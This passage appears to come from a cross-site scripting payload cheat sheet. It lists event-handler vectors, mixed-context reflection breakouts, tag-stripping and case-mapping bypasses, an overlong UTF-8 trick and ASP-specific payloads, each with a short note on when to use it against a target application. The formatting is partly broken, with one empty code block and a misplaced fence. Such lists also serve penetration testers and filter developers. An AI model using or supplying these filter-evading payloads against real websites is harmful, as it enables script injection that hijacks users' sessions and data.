 <x onmouseup=alert(1)>click this! 
<x contenteditable onpaste=alert(1)>paste here!
<x onpointercancel=alert(1)>hover this!
<x onpointerdown=alert(1)>hover this!
<x onpointerenter=alert(1)>hover this!
<x onpointerleave=alert(1)>hover this!
<x onpointermove=alert(1)>hover this!
<x onpointerout=alert(1)>hover this!
<x onpointerover=alert(1)>hover this!
<x onpointerup=alert(1)>hover this!
<x onpointerrawupdate=alert(1)>hover this!
```


## Mixed Context Reflection Entity Bypass
Use to turn a filtered reflection in script block in actual valid js code. It requires to be 
reflected both in HTML and javascript contexts, in that order, and close to each other. The 
svg tag will make the next script block be parsed in a way that even if single quotes become
encoded as `&#39;` or `&apos;` in reflection (sanitized), it will be valid for breaking out of 
current value and trigger the alert. Vectors for the following javascript scenarios, 
respectively: single quote sanitized, single quote fully escaped, double quote sanitized and 
double quote fully escaped.
```
">'-alert(1)-'<svg>
">&#39-alert(1)-&#39<svg>
">alert(1)-"<svg>
"&#34>alert(1)-&#34<svg>
```



## Strip-My-Script Vector
Use to trick filters that strips the classic and most known XSS vector. It works as it is and if 
```
`<script>` gets stripped.
<svg/on<script><script>load=alert(1)//</script>
```


## Javascript Alternative Comments
Use when regular javascript comments (//) are not allowed, escaped or removed.
```

```


## JS Lowercased Input
Use when target application turns your input into lowercase via javascript. It might work 
also for server-side lowercase operations.
```
<SCRİPT>alert(1)</SCRİPT>
<SCRİPT/SRC=data:,alert(1)>  
```


## Overlong UTF-8
Use when target application performs best-fit mapping.
```
%CA%BA>%EF%BC%9Csvg/onload%EF%BC%9Dalert%EF%BC%881)>
```


## Vectors Exclusive for ASP Pages
Use to bypass <[alpha] filtering in .asp pages.
```
%u003Csvg onload=alert(1)>
